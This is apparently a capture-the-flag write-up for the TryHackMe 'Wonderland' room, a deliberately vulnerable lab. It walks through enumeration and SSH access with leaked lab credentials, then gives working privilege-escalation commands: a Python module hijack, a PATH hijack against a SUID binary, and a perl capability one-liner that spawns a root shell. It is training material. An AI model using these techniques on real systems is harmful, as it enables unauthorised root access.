






# Wonderland 

Wonderland is a great CTF that focusses on teaching you about how to perform code tampering attacks. It also allows you to see the dangers of giving sudo/SUID/capabilities to files which don't need it/can work against you as an attack vector.

### Information:
**Name:** Wonderland  
**Difficulty:** Medium  
**Released:** Fri 05 Jun 2020   
**Creator:** NinjaJc01  
**URL:** https://tryhackme.com/room/wonderland

## Enumeration

Start off with an nmap scan that looks like this:

```
nmap -sC -sV -Pn -v <TARGET_IP>
```



This reveals the ssh port (for foothold) and the http port (for the actual exploit). The website looks like this:



Run a GoBuster command, like this:

```
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```



This reveals the `/r` directory, which gives another excerpt of text (These are all useless btw). The original way that I figured out how to go from here was to see the home page and notice that the word `rabbit` was said many times, so I got it by pure luck. The more sensible way is to download the rabbit picture on the website and run it through steghide like this:

```
steghide info white_rabbit_1.jpg		# there is no password, just press enter

steghide etract -sf white_rabbit_1.jpg

cat hint.txt
```



Here, it is shown that directorys will look like this : `/r/a/b/b/i/t`

This leads you to a webpage that gives some interesting information. In the source code for the website, you can see this:



`alice:HowDothTheLittleCrocodileImproveHisShiningTail` is the username and password that can be used to SSH into the machine, using this command:

```
ssh alice@<TARGET_IP>
```

This gives a foothold onto the machine, with which we can escalate our privileges and get user.txt and root.txt.

## PrivEsc

Contrary to normal CTF's, there is root.txt in alice's home directory, which can only be read with root. The hint provided in the CTF says that everything is upside down, so you can do `cat /root/user.txt` to get the user flag.

### Alice to Rabbit

While looking into the home directory, you see another file called `walrus_and_the_carpenter.py`. Checking `/home` shows that there are other users as well which bring forth the idea that we have to jump between user accounts. Checking `sudo -l` also reveals that alice has sudo permission to execute `walrus_and_the_carpenter.py` as the rabbit user.

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ ls /home
alice  hatter  rabbit  tryhackme
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Here, we start looking into the (I'm gonna call it walrus.py from now on) walrus.py file and discover the following code:

```
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

...

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

This code imports the random.py module, and randomly prints out 10 lines from the poem variable. The thing that can be done here, is to hijack the random.py module. This works because python would look for the random.py module in the current working directory first. Make a random.py file like this:

```
alice@wonderland:~$ cat > random.py << EOF
> import os
> os.system("/bin/bash")
> EOF
```

Execute the walrus.py like this:

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

### Rabbit to Hatter

Now you have access to the rabbit's shell. From here, do `cd /home/rabbit` and do `ls -l`. 

```
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

There is a SUID and GUID elf file called teaParty, owned by root. On execution, you get the following response:



Since we don't have the `strings` command available on the target machine, use `python3.6 -m http.server <PORT_NUM>` to transfer the teaParty file and analyze it. Tip: Use `wget http://<TARGET_IP>:<PORT_NUM>/teaParty` to get the file onto your attacking machine.

Use Ghidra to reverse engineer and get the C code back to us, which looks like this:

```
void main() {
    setuid(0x3eb);
    setgid(0x3eb);
    puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
    system("/bin/echo -n 'Probably by ' && date --date='next hour' -R");
    puts("Ask very nicely, and I will give you some tea while you wait for him");
    getchar();
    puts("Segmentation fault (core dumped)");
    return;
}

```

The SUID and GUID is being set to 1003 (Hexadecimal) you also see the date command being used, except it does not have an absolute path. We can hijack the path for date command using the following code:

```
rabbit@wonderland:/home/rabbit$ cat > date << EOF
> #!/bin/bash
> /bin/bash
> EOF

rabbit@wonderland:/home/rabbit$ PATH=/home/rabbit:$PATH

rabbit@wonderland:/home/rabbit$ chmod 777 date
```
Run `./teaParty` and you will be given the shell for the hatter account. 

### Hatter to Root

From there, you can go to `/home/hatter` directory and see that there is a password.txt which contains the password for the hatter account.

`hatter:WhyIsARavenLikeAWritingDesk?` is the username and password and you need to SSH into the target machine with these credentials.

From here, you can run linPEAS.sh (Transfer it with the http server method I displayed above) and run it. linPEAS.sh : https://github.com/carlospolop/PEASS-ng/releases/download/20220717/linpeas.sh

```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

We can see that the machine has capabilities set on perl (Basically perl runs as a root process). Having capabilities set on perl leads to a privilege escalation vulnerability (found here: https://gtfobins.github.io/gtfobins/perl/#capabilities) that we can exploit on this machine.

Run the following command:

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

After running this, you get the root shell, which can be used to read the `root.txt` file using `cat /home/alice/root.txt`. Additionally, you can go to /root and read the user.txt with `cat /root/user.txt`.
